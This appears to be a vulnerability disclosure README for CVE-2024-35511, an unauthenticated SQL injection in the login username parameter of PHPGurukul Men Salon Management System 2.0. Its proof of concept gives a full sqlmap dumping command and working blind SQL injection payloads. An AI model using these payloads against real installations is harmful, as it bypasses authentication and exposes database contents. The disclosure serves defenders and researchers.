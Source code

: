 # CVE-2024-35511-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: username
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/msms/admin/index.php" --method POST --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 --dump --tables`

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 4382=(SELECT (CASE WHEN (4382=4382) THEN 4382 ELSE (SELECT 5608 UNION SELECT 7404) END))-- zkRp&password=admin&login=Sign In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3172 FROM (SELECT(SLEEP(5)))sbzt)-- ljdG&password=admin&login=Sign In
---

```
+ current database: `msmsdb`
![Database](https://github.com/efekaanakkar/CVE/assets/130908672/9e7866fb-ae0a-4162-8e6f-141b25c91e96)

